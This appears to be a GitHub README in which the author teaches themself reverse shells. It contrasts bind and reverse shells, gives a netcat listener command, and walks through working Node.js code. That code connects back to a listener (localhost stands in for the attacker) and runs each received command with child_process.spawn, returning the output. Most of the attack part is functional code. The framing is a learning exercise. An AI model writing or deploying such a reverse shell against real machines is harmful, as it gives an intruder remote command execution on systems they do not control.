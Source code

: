 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :

_"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not work. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.


![](connected_reverse_shell.png)

### Ok good, we have a connection. Now what?
Now we implement the code that will make our TARGET do something when it receives the commands.

I used: `lient.on("data", FUNCTION )`

What this function does is specifying what the client will do when it will receive data. The passed data is defined as `"data"`and the `FUNCTION` is the action the TARGET will do.


```

client.on("data", (data)=>{  

  
    let cmd = (data.toString().trimEnd()); 

    let args = cmd .split(" "); 
    
    let exec = child_process.spawn(args[0],args.slice(1)); //args.slice(1) elimina il primo elemento del vettore

    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })


})
```

#### Let's break it down.

`let cmd = (data.toString().trimEnd()); `

Here i define `cmd` as the command that is passed. the method `toString()` is used to convert the bufferized hex that arrives into a string of character.

The method `trimEnd()` cuts the last character since it is a CR LF char and could mess up with the command we want to send.


`let args = cmd .split(" ");` here i define `args` as an array of all the commands + flags that are sent. The divisor is the space.

`let exec = child_process.spawn(args[0],args.slice(1));` This is the heart of our code. This method makes the command executable on the TARGET machine.


>child_process.spawn(command[, args][, options]).
As [**node.js** documentation states:](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) 
>The child_process.spawn() method spawns a new process using the given command, with command-line arguments in args. If omitted, args defaults to an empty array.

In our code, `args[0]` is the command we want to execute, from `args[1]` there are just flags. `args.slice[1]` takes the `args[]` vector from the 1st element, not the 0th.


To conclude, we make the client  output the result of our command. Alway using ".on"

```
    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })
    
````

## An example

![](command_execute-reverse_shell.png)











